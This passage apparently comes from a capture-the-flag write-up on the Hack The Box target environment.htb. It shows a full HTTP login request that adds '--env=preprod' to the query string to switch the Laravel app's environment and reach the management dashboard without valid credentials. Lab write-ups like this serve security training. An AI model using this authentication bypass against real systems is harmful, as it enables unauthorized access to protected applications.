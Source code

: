 ![Undefined Variable $Keep_loggedin](/assets/img/img_environment/Environment-1746329062917.png)

We can see that it checks if the `env` is `preprod`. So let's try it.

```http
POST /login?--env=preprod HTTP/1.1
Host: environment.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 109
Origin: http://environment.htb
Connection: keep-alive
Referer: http://environment.htb/login?error=Invalid%20credentials.
Cookie: XSRF-TOKEN=eyJpdiI6IktpamtpaG5oY0FOdlYzNnRqM3BPc3c9PSIsInZhbHVlIjoieklmUUhJS2VZbXppbkwycVhpekR1TXU3ZzdlWmJScmVZa1VHbkwvZmFtM3Ewc2NITktmT3F0TXBBOXhjN01CR3RNejlxWU1mSjdKOVJ1QzdIOWNLZWNCSlRuRzlZUnFyUUVOQWJ0UEpBQU4waFVoc2VDUVVQVFZuNTJMZ0RRcWkiLCJtYWMiOiIzMTVlMDU1N2JjMjVmYTA0MTQxY2JmYWM5OTk1MWVhOTU3NmYzYzgxYzdlMjM2NjA5ZGI2Mzc2MWI1MjJkOGE5IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6Ii9Rdkg4QkEwNUFqMXlsTUF1czEzK1E9PSIsInZhbHVlIjoiMTVteHRBekxFelBGYjFwd21rdjF4TmptMEpxKzcxVHRZNWx5OEZpUDR6UldpZi9RSE5oTDBYNjM2Tm81Y2xQL3NueGhSc2RCS3pyTCt5M2t2ZC9HcHlWNmlaaEhWZ1IvSGlCM0Vsb0xWVklyU2F1OVpYT2pVQ0MzUHA2RUVEMFYiLCJtYWMiOiIyNjNkNDYxN2YwMWMyZTVmYTU4OGMwMjQ2NDFkMzg0NmFmOTVhNDI5Yzg3NTRkZjU4NWEyMjBiZWJmNzY4MDgwIiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1
Priority: u=0, i

_token=NrzeUaIYwTANRvzxCd3Hp4bPCZkmA6hRMEfDC8Y3&email=w1ld%400xw1ld.github.io&password=Password&remember=True
```

Success! we're redirected to the management dashboard!